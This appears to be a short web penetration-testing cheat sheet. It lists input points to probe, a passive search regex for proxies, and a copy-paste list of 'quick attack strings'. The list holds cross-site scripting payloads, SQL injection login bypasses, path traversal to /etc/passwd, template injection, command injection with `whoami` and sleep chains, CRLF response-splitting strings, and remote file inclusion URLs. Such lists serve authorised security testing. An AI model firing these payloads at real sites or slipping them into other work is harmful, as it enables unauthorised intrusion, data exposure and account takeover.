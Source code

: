- INPUT FORMS
- GET/POST PARAMS
- URI/REST STRUCTURE
- COOKIES
- HEADERS



### SEARCH STRINGS:
-----------------------------------------------------------------------
Just some helpful regex terms to search for passively using Burpsuite or any other web proxy... 
```
fname|phone|id|org_name|name|email
```




### QUICK ATTACK STRINGS:
-----------------------------------------------------------------------
Not a complete list by any means, but when you're manually testing and walking through sites and need a quick copy/paste, this can come in handy... 
```
Company
First Last
username
username@mailinator.com
Password123$
+1416312384
google.com
https://google.com
//google.com
.google.com
https://google.com/.injectx/rfi_vuln.txt
https://google.com/.injectx/rfi_vuln.txt?`whoami`
https://google.com/.injectx/rfi_vuln.txt%00.png
https://google.com/.injectx/rfi_vuln.txt%00.html
12188
01/01/1979
4242424242424242
INJECTX
'>"></INJECTX>(1)
javascript:alert(1)//
"><img/onload=alert(1)>' -- 
"></textarea><img/onload=alert(1)>' -- 
INJECTX'>"><img/src="https://google.com/.injectx/xss_vuln.png"></img>
'>"><iframe/onload=alert(1)></iframe>
INJECTX'>"><ScRiPt>confirm(1)<ScRiPt>
"></textarea><img/onload=alert(1)>' -- // INJECTX <!-- 
"><img/onload=alert(1)>' -- // INJECTX <!-- 
INJECTX'"><h1>X<!-- 
INJECTX"><h1>X
en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
../../../../../../../../../../../etc/passwd%00
{{4+4}}
sleep 5; sleep 5 || sleep 5 | sleep 5 & sleep 5 && sleep 5
admin" or "1"="1"-- 
admin' or '1'='1'-- 
firstlastcompany%0a%0d%00
```

